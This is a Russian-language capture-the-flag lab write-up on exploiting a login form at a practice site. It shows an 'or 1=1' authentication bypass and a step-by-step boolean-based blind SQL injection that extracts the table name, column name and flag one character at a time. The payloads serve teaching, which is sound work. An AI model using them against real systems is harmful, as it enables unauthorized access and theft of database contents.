 # Практика 4 часть 3

Открываем веб-сайт. errsql.myctf.ru

На этот раз фаззинг директорий нам ничего не принес. Пароль, полученный из исходников нам тоже не помог. Поэтому, попробуем выполнить sql инъекцию.

Попробуем инъекцию проверки пароля, введем в качестве логина — `admin`, а в качестве пароля `123' or 1=1 -- 123`. Данная атака позволяет выполнить свести логическую проверку пароля к проверке равенства `1=1`, которое всегда `True`, а следовательно выполнится. После чего остаток логики автора комментируется с помощью двойного тире. Выполнив атаку мы попадаем на страницу:

![image21](images/image21.jpg)

Видим что мы обошли авторизацию, но флаг не тут. Понимаем, что при истинном значении (`1=1`) мы обходим авторизацию, при ложном (`1=0`) нет. Используя эти знания пробуем достать данные из базы посимвольно.

![image22](images/image22.jpg)

Сначала имя таблицы:

```sql
login=admin' or substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' or substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='l' -- -&password=somenewpass
```

(Получили таблицу flag)

Потом имя столбца:

```sql
login=admin' or substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' or substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='l' -- -&password=somenewpass
```

(получили столбец flag)

И в конце достаем флаг:

```sql
login=admin' or substr((select flag from flag),1,1)='F' -- -&password=somenewpass
```

```sql
login=admin' or substr((select flag from flag),2,1)='l' -- -&password=somenewpass
```

Уязвимость в данном задании заключается в том, что мы можем делать любые запросы к базе данных, однако у нас нет возможности отобразить информацию на экране, поэтому мы используем некоторую логическую операцию: так например, если мы осуществляем успешный логин, с помощью конструкции `1=1`, а при `0=1` – логина нет, то нам ничего не мешает осуществить ту же самую операцию, сравнивая, например буквы — `f=f`, а раз мы можем сравнивать буквы, то можно попробовать сформировать одну из частей выражения запросом, а другую — подставлять руками. Таким образом, если, например, `1 буква имени таблицы = f`, то подставив в правую часть выражения `f`, мы успешно залогинимся. Если же мы не угадали, то можем перебирать правую часть выражения до тех пор, пока равенство не выполнится и не произойдет успешный логин. Вручную, конечно, это делать крайне трудозатратно, поэтому обычно такие процессы автоматизируют. Данная уязвимость, в зависимости от ограничений и прав пользователя из под которого происходит запрос, позволяет извлечь/записать любые данные из базы.
